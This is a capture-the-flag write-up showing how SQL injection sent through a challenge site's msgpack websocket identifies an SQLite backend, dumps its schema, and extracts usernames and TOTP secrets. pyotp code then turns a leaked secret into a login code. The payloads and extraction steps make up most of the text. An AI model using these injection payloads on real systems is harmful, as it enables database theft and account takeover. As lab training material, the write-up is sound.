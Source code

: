 If you look at the source code of the challenge you can see they used browserify for bundling the dependencies. I wrote my version of this client so you can check those dependencies at the link end of this writeup.

But in this writeup we are gonna use chrome developer console, put breakpoint in a good place and take control of the socket. Test manually and leak totp keys.

![image-20200427112039042](https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112039042.png)

I choose 2146th line because we can see response from server in here. And we can access to websocket and msgpack class. 

![image-20200427112558712](https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112558712.png)

After we get those we can manually test our payloads.

```javascript
r.send(o.encode(["getPost", "1"]))
```

<img src="https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112824345.png" alt="image-20200427112824345" style="zoom:200%;" />

```json
author: 1
hidden: 0
id: 2
postDate: 1580947200000
text: "They're pretty cool, in my opinion."
title: "A review of American sockets"
```

This is the post structure. Mind the hidden field because if its true we can't see it.

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification using these payloads we can identify database system and develop payload for it.

```javascript
r.send(o.encode(["getPost", "1 and sqlite_version()=sqlite_version()"]))
```

It worked so we have sqlite backend. We can leak database structure with payload below.

```javascript
r.send(o.encode(["getPost", "999 or 1=1 UNION SELECT sql,sql,sql,sql,sql,0 from sqlite_master"]))
```

This payload allows us to see whole database structure.

```sql
CREATE TABLE "users" (
	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"username"	TEXT NOT NULL,
	"totp_key"	TEXT NOT NULL
)
CREATE TABLE "posts" (
	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"title"	TEXT NOT NULL,
	"author"	INTEGER NOT NULL,
	"text"	TEXT NOT NULL,
	"postDate"	INTEGER NOT NULL,
	"hidden"	INTEGER DEFAULT 0
)
```

After find out column names we can get user names and totp keys.

```javascript
r.send(o.encode(["getPost", "999 or 1=1 UNION SELECT username,totp_key,0,0,0,0 from users "]));
```

```javascript
{id: "alice", title: "J5YD4O2BIZYEMVJYIY3F24S3GQ2VC3ZTKJQVW5JFJUYHKODXORQQ", author: 0, text: 0, postDate: 0, …}
{id: "bob", title: "IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA", author: 0, text: 0, postDate: 0, …}
```

After leaking user names and totp keys we need to create totp password. I used pyotp library.

```python
import pyotp
totp = pyotp.TOTP('IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA')
totp.now() # => '677619'
```

Login and get the flag!

Don't forget to check my automated blind boolean script https://github.com/BirdsArentRealCTF/Blog-from-the-future/blob/master/index.html
